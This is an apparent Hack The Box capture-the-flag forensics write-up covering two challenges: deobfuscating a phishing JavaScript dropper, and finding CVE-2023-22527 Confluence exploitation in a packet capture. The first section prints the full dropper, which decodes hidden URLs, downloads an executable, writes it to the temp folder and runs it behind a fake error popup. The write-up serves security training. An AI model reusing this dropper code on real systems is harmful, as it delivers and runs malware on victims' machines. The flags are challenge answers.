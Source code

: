
# Forensics

## Glowup

We managed to retrieve some artifacts from a recent phishing incident. To further investigate the attack we need to analyse the provided document. Examine it and find out what the next steps of the malware are.

### Solution

Checking provided zip file. After extracting it I found artifacts.js file.

![](Pasted%20image%2020241202135134.png)

```javascript
var urls = ["loqKjo3E0dGTl4yfl5mMkYuO0JaKnNGJjtOXkJ2Si5qbjdGJlZ2Jx87MzsvR", "loqKjo3E0dGZm5HTl4rQloqc0Z2NjdGPzYTNkpSRzcfK0baqvIXOnJiLjZ3Kis+QmaGKls2hrYqMz5CZjaHPjaGQzoqhzZDOi5mWgw==", "loqKjo3E0dGdn4ybm4zQloqc0YmO052RkIqbkIrRzpCEjo6Gj8rH0Q==", "loqKjo3E0dGZm5HTl4rQloqc0Z2NjdGPzYTNkpSRzcfK0Q==", "loqKjsTR0YmJidCdnJCQm4mNmpeMm52K0JaKnNGJkYyajoybjY3Ry5LPlY6GysvR", "loqKjo3E0dGVn4yHn4qWn5LQloqc0YmO052RkIqbkIrRzM3P0Q=="],
    activeXObject = "ActiveXObject";

function xd(e, n) {
    for (var t = new Uint8Array(e.length), l = 0; l < e.length; l++) t[l] = e[l] ^ n;
    return t
}

function bnx(e, n) {
    for (var t = atob(e), l = new Uint8Array(t.length), o = 0; o < t.length; o++) l[o] = t.charCodeAt(o);
    return xd(l, n)
}

function dd(e) {
    var n = new activeXObject("MSXML2.XMLHTTP");
    return (n.open("GET", e, !1), n.send(), 200 == n.status) ? n.ResponseBody : null
}

function gop() {
    var e = new activeXObject("Scripting.FileSystemObject"),
        n = "\\" + Math.random().toString(36).substr(2, 9) + ".exe";
    return e.GetSpecialFolder(2) + n
}

function snr(e) {
    var n = gop(),
        t = new activeXObject("ADODB.Stream");
    t.Open(), t.Type = 1, t.Write(e), t.Position = 0, t.SaveToFile(n, 2), t.Close(), new activeXObject("WScript.Shell").Run(n)
}

function start(e, n) {
    WshShell = WScript.CreateObject("WScript.Shell"), Text = atob("VGhlcmUgd2FzIGFuIGVycm9yIG9wZW5pbmcgdGhpcyBkb2N1bWVudC4gVGhlIGZpbGUgaXMgZGFtYWdlZCBhbmQgY291bGQgbm90IGJlIHJlcGFpcmVkIChmb3IgZXhhbXBsZSwgaXQgd2FzIHNlbnQgYXMgYW4gZW1haWwgYXR0YWNobWVudCBhbmQgd2Fzbid0IGNvcnJlY3RseSBkZWNvZGVkKS4"), Title = atob("Tm90IFN1cHBvcnRlZCBGaWxlIEZvcm1hdA=="), Res = WshShell.Popup(Text, 0, Title, 64), n && snr(e)
}
for (var i = 0; i < urls.length; i++) var decodedData = bnx(urls[i], 254),
    data = dd(String.fromCharCode.apply(null, decodedData));
```

I made changes to below function and ran JS online

```js
function dd(e) {
    console.log(e)
    return;
    var n = new activeXObject("MSXML2.XMLHTTP");
    return (n.open("GET", e, !1), n.send(), 200 == n.status) ? n.ResponseBody : null
}
```

This logged below result

```
https://miraigroup.htb/wp-includes/wkcw90205/
https://geo-it.htb/css/q3z3ljo394/HTB{0bfusc4t1ng_th3_Str1ngs_1s_n0t_3n0ugh}
https://career.htb/wp-content/0nzppxq49/
https://geo-it.htb/css/q3z3ljo394/
http://www.cbnnewsdirect.htb/wordpress/5l1kpx45/
https://karyathal.htb/wp-content/231/
```

And found the flag `HTB{0bfusc4t1ng_th3_Str1ngs_1s_n0t_3n0ugh}`

## Merging rivers

We have noticed lately that some Pages in our Knowledge base have been altered and reflected bad practices! We have checked our Confluence users but we didn't find anything out of place... However, we did have a network capture somewhere that might be of help! Can you help us out by finding how the attacker managed to get access to our Knowledge base? Hopefully when found, we can fix it so it wont happen again!

### Approach

Extracted given zip file. Got capture.pcapng file

![](Pasted%20image%2020241202135547.png)

Checking http protocol as description says this is regarding confluence page.

![](Pasted%20image%2020241202141245.png)

After checking some packets, it was clear that attacker was abusing `CVE-2023-22527`. 
After going through all http packets lastly I found the packet where attacker was trying to get RCE.

![](Pasted%20image%2020241202141540.png)

After decoding the `jwt.private.key` I found the flag.

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ echo SFRCe0FuMHRoM3JfZDR5XzRuMHRoM3JfYzBuZmx1M25jM19SQzMhIX0= | base64 -d
HTB{An0th3r_d4y_4n0th3r_c0nflu3nc3_RC3!!}
```